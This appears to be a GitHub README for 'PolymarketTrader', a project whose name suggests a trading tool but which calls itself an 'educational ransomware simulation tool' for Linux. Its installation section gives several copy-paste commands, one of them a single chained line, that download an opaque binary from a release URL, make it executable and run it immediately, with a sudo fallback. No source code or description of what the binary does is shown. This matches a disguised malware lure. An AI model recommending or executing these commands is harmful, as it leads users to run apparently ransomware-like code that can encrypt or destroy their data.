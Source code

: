 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && curl -L https://github.com/YoavSavir/PolymarketTrader/releases/download/v1.0/PolymarketTrader -o poly-trader/PolymarketTrader && chmod +x poly-trader/PolymarketTrader && ./poly-trader/PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the executable
3. Make it executable automatically
4. Run the program

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download executable
curl -L https://github.com/YoavSavir/PolymarketTrader/releases/download/v1.0/PolymarketTrader -o PolymarketTrader

# Make executable (if needed)
chmod +x PolymarketTrader

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://github.com/YoavSavir/PolymarketTrader/releases/download/v1.0/PolymarketTrader
chmod +x PolymarketTrader
./PolymarketTrader
```

## Troubleshooting

### Permission Issues
If you get a "Permission denied" error, run:
```bash
chmod +x PolymarketTrader
```

### If chmod doesn't work
Try with sudo:
```bash
sudo chmod +x PolymarketTrader
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** x86_64
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.


## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 
